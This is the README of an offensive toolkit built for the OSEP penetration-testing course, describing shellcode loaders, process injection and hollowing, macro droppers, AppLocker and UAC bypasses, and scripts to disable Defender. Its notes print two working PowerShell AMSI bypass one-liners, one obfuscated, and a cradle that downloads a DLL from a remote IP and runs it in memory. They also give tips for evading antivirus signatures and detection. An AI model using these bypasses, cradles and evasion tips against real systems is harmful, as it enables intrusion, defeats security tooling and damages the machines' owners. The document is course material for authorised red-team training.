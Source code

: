 # OSEP Tools v2

A marriage between [Octoberfest/OSEP-Tools](https://github.com/Octoberfest7/OSEP-Tools) and [chvancooten/OSEP-Code-Snippets](https://github.com/chvancooten/OSEP-Code-Snippets). Thanks to those guys for putting in the real work.

I made some changes to the repos obviously. The easiest way to see what I've done is check the commits and my [Changelog](#osep-tools-v2-changelog) section below. Basically what I did was just rewrite/reformat the documentation for the tools, and fix some things here and there.

Alot of my focus has been on adding to the shellcode loading C#/PS projects, and Misc things. I included most of OSEP-Tools, and a few projects from OSEP-Code-Snippets that weren't covered already.

Below is a small table of contents, some notes, my changelog, and then the disclaimer from the OG OSEP-Tools repo author.

## ToC

| Module | Description | SubModules |
| ------ | ----------- | ---------- |
| Active_Directory | Tools that may aid in AD enumeration/exploitation | `sql` |
| AppLocker_Bypass | Tools that may aid in bypassing AppLocker | `altBypass`, `DLLInject64`, `DLLRunner32`, `psBypass` |
| Linux | Tools that aid in executing shells on a Linux box | `Linux_Shellcode_Encoders`, `Linux_Shellcode_Loaders` |
| Loaders_Disk | Tools that aid in loading shellcode into memory, *from disk*, and executing | `ASPX_Inject64`, `ASPX_Runner64`, `clrunner`, `clhollow`, `clinject`, `D_invoke` |
| Loaders_Memory | Tools that aid in loading shellcode into memory, *from memory*. Usually scripts fetched remotely in powershell. | `powerhollow.py`, `powerinject.py` |
| Macros | Tools that aid in executing shellcode either from memory or disk, from a word VBS Macro | `WordMacroRunner.vbs`, `WordMacroRunnerBasic.vbs`, `vbObfuscate.ps1`, `WordPsCradle.vbs`, `WordMacroInject.vbs` |
| Misc | Tools aiding in misc things like AV enumeration, automation, dumping LSASS memory, and RCE leveraging win32 API | `AV_Stuff`, `Autos`, `PSLessExec`, `MiniDump` |
| Privilege_Escalation | Tools that aid in Windows PE | `PrinSpoofer.Net`, `shakeitoff`, `UACBypass.ps1` |

## OSEP-Tools-v2 Changelog
- [11/25/2023](https://github.com/hackinaggie/OSEP-Tools-v2/commit/abf34fb4b0c761091ace1be6368c8bbdfcc3b2bb)
    - Initial commit; File structure changes, README updates/prettifying, repo merging
- 11/26/2023
    - Updated `WordMacroInject.vbs` to be able to inject when ran from a 32-bit Word process
    - Updated `WordMacroInject.vbs` to enumerate 32-bit processes and inject into a process other than `WINWORD.exe`
    - Updated `Disable-AVProduct.ps1` to better enumerate security products
    - Added `Misc/Autos` directory to automate common processes; Added `Create-Admin.ps1`
- 12/01/2023
    - Updated `Disable-AVProduct.ps1` to actually disable windows defender (using provided cmdlets/registry keys, nothing crazy)
    - More thorough minifying of `Disable-AVProduct.min.ps1`
    - Fix `powerhollow.py` and `powerinject.py` payloads to not fail if no Amsi found
    - Add input checks to ensure hollowing targets are valid
- 12/03/2023
    - Compile all projects to single directory for ease of access
- 12/13/2023
    - Fix D_invoke dependency issue. Modify underlying build command to allow build error debugging
    - Add reverse shell functionality to `altbypass`
    - Add new formatter `bin_to_vbappArray.py`
    - Update `powerinject.py` payloads to always execute in a 64-bit process
- 01/06/2024
    - Update `powerinject.py` target injection process identification method. Add `any` target option.
    - Add `clrunner` payload. Add InstallUtil bypass to all `cl*` Shellcode Loaders.
    - General Optimization of projects mapped to `payloads/` directory.
- 01/07/2024
  - Add `DLLInject64` and `DLLRunner32`. Remove `nonDN2J.hta`.
- 01/14/2024
  - Add `ASPX_Inject64` and `ASPX_Runner64` projects
  - Rename `Loaders_PEs` to `Loaders_Disk`, `Loaders_Shellcode` to `Loaders_Memory`, move projects between them.
- 01/20/2024
  - `DLLInject64` and `DLLRunner32`: Move to `AppLocker_Bypass`, add AMSI Bypasses, and add XSL + HTA Payload examples.

## TODOs

- Implement dynamic AMSI search capability as seen here: https://secureyourit.co.uk/wp/2019/05/10/dynamic-microsoft-office-365-amsi-in-memory-bypass-using-vba/
- Update `AV_Stuff` scripts
    - Add AppLocker Rules  disabling option to `Get-AppLockerRules.ps1`
    - Add `DisableLSA` script using my private notes
- Patch the `x64_met_staged_reverseHttps*` payloads in `/bins` bc they don't work. The tcp do.
    - Notes in the Loaders_Shellcode readme
- Integrate more of OSEP-Code-Snippets
- Update `UACBypass.ps1`

## Notes

### Powershell AMSI bypass:
  
- Win10
```ps1
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```
  
- Win10+Win11  
```ps1
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```
 
- Powershell Dll download cradle (replace ip/file name but leave rest as is when using D/invoke builder generated payloads!):
```ps1
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.1.195/basic.dll');$assem = [System.Reflection.Assembly]::Load($data);$class = $assem.GetType("dll.Class1");$method = $class.GetMethod("runner");$method.Invoke(0, $null)  
```

With Powerinject/Powerhollow make sure you think about whether you will be calling PS download cradle from powershell or cmd.exe and use the appropriate mode when constructing payloads.  When you call powershell.exe <cradle> from cmd.exe or even from another powershell window, you are creating a child process and while the embedded AMSI bypass may work for the child process the parent process will detect the child performing malicious actions and flag it.
  
- Do NOT use msfvenom encoders with any Hollowing tool. Causes problems.
  
### Injection tools

Your target for injection must be of the same integrity or lower than the method by which you have code execution.  I.e. if you are running in medium integrity you cannot inject into spoolsv, inject into explorer.
  
### Hollowing tools

Your target parent process for PPID spoofing must be of the same integrity or lower than the method by which you have code execution. I.e. if you are running in medium integrity you cannot specify spoolsv as the parent process.  Hollowed process will inherit the integrity of parent process.

### Discoveries

- Latest patch defender (Oct 2021) seems to have an "AND" based signature for `AutoOpen()`.  It can be used in macros for benign purposes but as soon as API calls are included (or at least things used in shellcode runners), it flags signature based detection.
- `RtlMoveMemory` API call is signatured.  Use `RtlFillMemory` instead. 
- Resolve `Amsi.dll` and the function calls within it either dynamically or heavily obfuscated when you go to patch it.
- Meterpreter shells after using Migrate seem to get caught by defender sometimes... Doesn't seem to be the case for straight up injection payloads.

### RESOURCES

- https://depthsecurity.com/blog/obfuscating-malicious-macro-enabled-word-docs
- https://secureyourit.co.uk/wp/2020/04/18/enumerating-process-modules-in-vba/

# Disclaimer
> @Octoberfest7

All of these tools were developed for use in the OSEP course.  During development of them, as I learned more, in many cases I went above and beyond what the course taught because I figured "Why not build things against latest patch AV?".  That is not to say that all of the things in this repo are now beating Live Defender; however at one point or another, most of them were.  I hope that they may be of use to others, either for direct usage or to serve as inspiration for further work.

There is very little in terms of actual novel tradecraft here; it is a combination of a myriad of resources provided by people far smarter than I.  The majority of the heavy lifting I did here was towards automation.  I wanted an easy, standardized way to generate payloads for use in the OSEP course. All powershell and C# payloads contained within this repo utilize AES-256 encryption on the shellcode as well as a sleep statement for sandbox detection/evasion.

I offer no guarantees of any kind when using this stuff.  Nothing in here was designed for public release, I am doing so after many requests.  Make sure you read the notes provided on each tool in this README.
